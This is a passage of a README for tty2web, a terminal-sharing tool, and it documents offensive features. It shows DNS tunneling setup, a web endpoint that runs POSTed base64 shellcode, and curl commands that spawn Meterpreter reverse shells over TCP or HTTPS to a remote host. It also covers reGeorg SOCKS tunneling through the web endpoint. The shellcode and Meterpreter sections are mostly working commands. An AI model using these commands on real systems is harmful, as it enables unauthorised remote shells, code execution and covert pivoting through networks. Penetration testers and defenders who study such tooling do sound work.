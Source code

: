 Start DNS server:
```sh
$ tty2web --dns example.com --dnslisten :53 --server 127.0.0.1:8000
```

Start DNS client:
```sh
$ tty2web --dns example.com --dnskey <dnskey> top
```

Note that DNS tunneling can be slow.

You can speed up DNS boot up time to fetch initial javascript from Javascript on the Internet URL:

```sh
$ tty2web --dns example.com --dnskey <key> --jsurl http://cdn.jsdelivr.net/gh/kost/tty2web/bindata/static/js/ top
```

## SC support

Start with:
```sh
$ tty2web --sc top
```

Now, you can execute sc within POST query parameter space:

```sh
$ curl -d "base64-encoded-string-with-sc"  -ivk http://127.0.0.1:8080/sc/
root
```

or from file with POST parameter:
```sh
$ curl -d "@sc-127.0.0.1-4444.b64"  -ivk http://127.0.0.1:8080/sc/
```

spawn Meterpreter shell over tcp to 192.168.1.1:
```sh
$ curl -H 'Accept-Language: msf-tcp' 'http://127.0.0.1:8080/sc/?192.168.1.1:4444'
```

spawn Meterpreter shell over https to 192.168.1.1:
```sh
$ curl -H 'Accept-Language: msf-https' -d '192.168.1.1:4444' http://127.0.0.1:8080/sc/
```

## Regeorg support

Start with:
```sh
$ tty2web --regeorg top
```

Now, you can start regeorg proxy:

```sh
$ pip install regeorg
[..]
$ reGeorgSocksProxy.py -u http://127.0.0.1:8080/regeorg/
[..]
[INFO   ]  Starting socks server [127.0.0.1:8888], tunnel at [http://127.0.0.1:8080/regeorg]
[..]
```


[release]: https://github.com/kost/tty2web/releases
[license]: https://github.com/kost/tty2web/blob/master/LICENSE